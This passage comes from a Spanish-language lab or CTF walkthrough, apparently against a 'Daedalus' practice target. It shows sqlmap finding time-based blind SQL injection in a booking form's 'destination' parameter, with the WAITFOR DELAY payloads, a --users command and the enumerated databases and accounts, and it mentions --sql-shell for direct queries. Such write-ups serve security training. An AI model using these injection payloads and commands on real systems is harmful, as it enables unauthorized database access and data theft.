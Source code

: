 ```bash
    Payload: destination=test';WAITFOR DELAY '0:0:5'--

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: destination=test' WAITFOR DELAY '0:0:5'-- DCiP
---
[18:18:37] [INFO] the back-end DBMS is Microsoft SQL Server
[18:18:37] [INFO] fetching database names
[18:18:38] [INFO] retrieved: 'daedalus'
[18:18:39] [INFO] retrieved: 'logs'
[18:18:39] [INFO] retrieved: 'master'
[18:18:40] [INFO] retrieved: 'model'
[18:18:40] [INFO] retrieved: 'msdb'
[18:18:41] [INFO] retrieved: 'tempdb'
available databases [6]:
[*] daedalus
[*] logs
[*] master
[*] model
[*] msdb
[*] tempdb
```

  
Mediante el parámetro "--users" de SQLmap, es posible extraer los usuarios asociados a la base de datos, permitiéndonos así obtener información adicional relevante.

Además, para ejecutar consultas personalizadas y tener un mayor control sobre las operaciones realizadas, optaremos por utilizar el parámetro "--sql-shell". Este parámetro nos proporcionará una interfaz de consola que nos permitirá enviar consultas SQL de manera directa, brindando así un mayor nivel de control sobre las acciones ejecutadas en el sistema de gestión de bases de datos

```bash
❯ sqlmap --batch --url http://10.13.38.20/book-trip.php --data "destination=test" --users  
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[14:24:47] [INFO] resuming back-end DBMS 'microsoft sql server' 
[14:24:47] [INFO] testing connection to the target URL
[14:24:48] [INFO] the back-end DBMS is Microsoft SQL Server
[14:24:48] [INFO] fetching database user'
database management system users [18]:
[*] ##MS_AgentSigningCertificate##
[*] ##MS_PolicyEventProcessingLogin##
[*] ##MS_PolicySigningCertificate##
[*] ##MS_PolicyTsqlExecutionLogin##
[*] ##MS_SmoExtendedSigningCertificate##
[*] ##MS_SQLAuthenticatorCertificate##
[*] ##MS_SQLReplicationSigningCertificate##
[*] ##MS_SQLResourceSigningCertificate##
[*] daedalus
[*] daedalus_admin
[*] NT AUTHORITY\\SYSTEM
[*] NT Service\\MSSQLSERVER
[*] NT SERVICE\\SQLSERVERAGENT
[*] NT SERVICE\\SQLTELEMETRY
[*] NT SERVICE\\SQLWriter
[*] NT SERVICE\\Winmgmt
[*] sa
[*] WEB01\\svc_dev
```
